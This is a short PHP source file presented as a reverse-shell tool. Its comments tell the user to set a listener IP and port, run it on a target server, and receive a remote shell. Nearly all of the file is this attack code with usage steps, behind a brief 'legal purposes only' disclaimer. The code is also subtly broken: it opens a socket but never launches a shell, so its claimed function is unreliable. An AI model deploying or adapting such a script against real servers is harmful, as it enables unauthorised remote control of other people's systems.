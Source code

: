 # reverse-shell
<?php
/**
 * php-reverse-shell - A Reverse Shell implementation in PHP
 * 
 * This script establishes an outbound TCP connection to a specified IP address and port,
 * providing a reverse shell to the listener. This tool is intended for legal purposes only.
 * Users take full responsibility for any actions performed using this tool.
 * Usage: 
 *   1. Customize the $ip and $port variables with the desired listener IP and port.
 *   2. Run the script on the target server.
 *   3. Start a listener on the specified IP and port to receive the reverse shell.
 */

// Set the IP address and port of the listener
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;        // CHANGE THIS

// Set timeout limit for script execution to indefinite
set_time_limit(0);

// Attempt to establish an outbound TCP connection to the listener
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    exit("Failed to connect to $ip:$port - $errstr ($errno)\n");
}

// Set stream options for non-blocking mode
stream_set_blocking($sock, 0);

// Print status message indicating successful connection
echo "Successfully connected to $ip:$port\n";

// Redirect STDIN, STDOUT, and STDERR to the socket
stream_copy_to_stream(STDIN, $sock);
stream_copy_to_stream($sock, STDOUT);
stream_copy_to_stream($sock, STDERR);

// Close the socket
fclose($sock);

// Exit the script
exit;
?>
